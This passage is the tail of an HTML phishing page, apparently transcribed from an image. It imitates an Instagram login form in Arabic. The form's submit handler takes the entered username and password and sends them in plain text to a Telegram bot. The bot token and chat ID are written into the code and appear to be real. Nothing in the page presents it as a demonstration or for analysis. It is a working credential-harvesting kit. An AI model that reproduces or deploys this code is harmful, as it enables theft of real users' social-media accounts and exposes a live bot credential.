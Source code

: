             let password = document.getElementById('password').value;
            
            let botToken = '7807683290:AAHDyU3krnj-t8NlxPSjhVxesDPCyBoN-SI';
            let chatId = '8011712410';
            let message = `اسم المستخدم: ${username}%0Aكلمة المرور: ${password}`;
            
            fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${message}`)
                .then(response => response.json())
                .then(data => console.log(data))
                .catch(error => console.error('Error:', error));
        }
    </script>
</head>
<body>
    <div class="login-container">
        <div class="logo">
            <i aria-label="Instagram" role="img"></i>
        </div>
        <form onsubmit="sendToTelegram(event)">
            <input type="text" id="username" placeholder="اسم المستخدم أو البريد الإلكتروني" required>
            <input type="password" id="password" placeholder="كلمة المرور" required>
            <button type="submit" class="login-btn">تسجيل الدخول</button>
        </form>
        <div class="forgot"><a href="#">هل نسيت كلمة المرور؟</a></div>
    </div>
</body>
</html>
